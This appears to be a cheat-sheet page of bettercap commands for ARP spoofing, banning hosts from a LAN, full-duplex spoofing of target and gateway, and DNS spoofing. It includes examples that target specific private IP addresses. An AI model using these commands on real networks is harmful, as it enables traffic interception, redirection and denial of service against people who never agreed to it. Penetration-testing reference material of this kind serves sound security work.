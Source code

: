 ## <mark style="color:red;">ARP Spoof</mark>

start ARP spoof

```
arp.spoof on/off

# Specify a list of target IP addresses, comma-separated
set arp.spoof.targets [IPs]
```

run ARP spoof in ban mode (targets connection wont work )

```
arp.ban on/off
```

run full duplex ARP spoof (both target and gateway will be attacked)

{% hint style="info" %}
if the gateway has ARP spoof protection the attack will fail
{% endhint %}

```
set arp.spoof.fullduplex true/false 

# example:
# Ban the address 192.168.1.6 from the network:
set arp.spoof.targets 192.168.1.6; arp.ban on

# Spoof 192.168.1.2, 192.168.1.3 and 192.168.1.4
set arp.spoof.targets 192.168.1.2-4; arp.spoof on
```

## <mark style="color:red;">Ban Target From Network</mark>

```
set arp.spoof.targets <TARGET_IP>
arp.ban on
```

## <mark style="color:red;">DNS Spoof</mark>

Set the dns.spoof.address for the host that you want to receive client activity stemming from spoofed responses. Set dns.spoof.domains to a comma-separated list of all the domains you want to target for DNS spoofing, or set dns.spoof.all to true to spoof all DNS responses. Alternatively, you can target your attack by setting dns.spoof.hosts to a hosts file that uses a specific hostname-to-IP-address pairing (using the same configuration of the standard /etc/hosts file on UNIX systems).

```
dns.spoof on/off
```

#### Set the IP address to return for spoofed DNS answers

```
set dns.spoof.address [address]
```
